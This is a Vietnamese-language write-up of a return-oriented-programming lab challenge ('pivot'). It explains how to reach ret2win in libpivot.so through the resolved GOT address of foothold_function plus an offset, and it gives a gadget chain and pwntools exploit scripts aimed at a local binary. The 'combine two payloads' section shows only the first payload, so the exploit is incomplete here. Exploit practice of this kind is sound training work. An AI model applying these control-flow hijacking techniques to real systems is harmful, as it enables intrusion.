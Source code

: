 Như vậy để có được địa chỉ của hàm ret2win trong libpivot.so ta cần gọi hàm foothold\_function 1 lần, lấy địa chỉ đã resolve của foothold\_function trong got.plt và thêm vào offset khoảng cách giữa foothold\_function và ret2win là ta sẽ có địa chỉ cần tìm.

```text-x-python
Stack như sau:
[0x400720] -> foothold_function@plt
[0x4009bb] -> pop rax; ret;
[0x601040] -> foothold_function@got.plt -> rax; rax lúc này trỏ đến địa chỉ của foothold_function
[0x4009c0] -> mov rax, qword ptr [rax]; ret; Lấy địa chỉ của foothold_function đã resolve
---> thêm offset giữa foothold và ret2win để rax trỏ về ret2win
[0x4007c8] -> pop rbp; ret;
[0x4009c4] -> add rax, rbp; ret;
[0x4006b0] -> call rax; Gọi ret2win
```

Code payload 1

```text-x-python
lib_foothold_addrs = 0x0000096a # 10  0x0000096a 0x0000096a GLOBAL FUNC   19       foothold_function
lib_ret2win_addrs = 0x00000a81 # 18  0x00000a81 0x00000a81 GLOBAL FUNC   146      ret2win

payload1 = p64(0x400720) #8   0x00400720 GLOBAL FUNC       foothold_function
payload1 += p64(0x4009bb) # 0x00000000004009bb: pop rax; ret;
payload1 += p64(0x601040) # 6: sym.imp.foothold_function (); 0x00400720      ff251a092000   jmp qword [reloc.foothold_function] ; [0x601040:8]=0x400726;
payload1 += p64(0x4009c0) # 0x00000000004009c0: mov rax, qword ptr [rax]; ret;
payload1 += p64(0x4007c8) # 0x00000000004007c8: pop rbp; ret;
payload1 += p64(lib_ret2win_addrs-lib_foothold_addrs) #offset
payload1 += p64(0x4009c4) # 0x00000000004009c4: add rax, rbp; ret; 
payload1 += p64(0x4006b0) # 0x00000000004006b0: call rax;
p.sendline(payload1)
```

Kết hợp 2 payload

```text-x-python
from pwn import *
import re

context.update(arch='amd64', os='linux')

p = process('./pivot')
# gdb.attach(p,'''
# break *pwnme
# ''')

line1 = p.recvuntil(b'>')
print(line1)
heap_addr = int(re.search('pivot: (0x\w+)', line1.decode()).group(1), 16)
print("Found heap address: {:02x}".format(heap_addr))

lib_foothold_addrs = 0x0000096a # 10  0x0000096a 0x0000096a GLOBAL FUNC   19       foothold_function
lib_ret2win_addrs = 0x00000a81 # 18  0x00000a81 0x00000a81 GLOBAL FUNC   146      ret2win

payload1 = p64(0x400720) #8   0x00400720 GLOBAL FUNC       foothold_function
payload1 += p64(0x4009bb) # 0x00000000004009bb: pop rax; ret;
payload1 += p64(0x601040) # 6: sym.imp.foothold_function (); 0x00400720      ff251a092000   jmp qword [reloc.foothold_function] ; [0x601040:8]=0x400726;
payload1 += p64(0x4009c0) # 0x00000000004009c0: mov rax, qword ptr [rax]; ret;
payload1 += p64(0x4007c8) # 0x00000000004007c8: pop rbp; ret;
payload1 += p64(lib_ret2win_addrs-lib_foothold_addrs) #offset
payload1 += p64(0x4009c4) # 0x00000000004009c4: add rax, rbp; ret; 
payload1 += p64(0x4006b0) # 0x00000000004006b0: call rax;
p.sendline(payload1)
```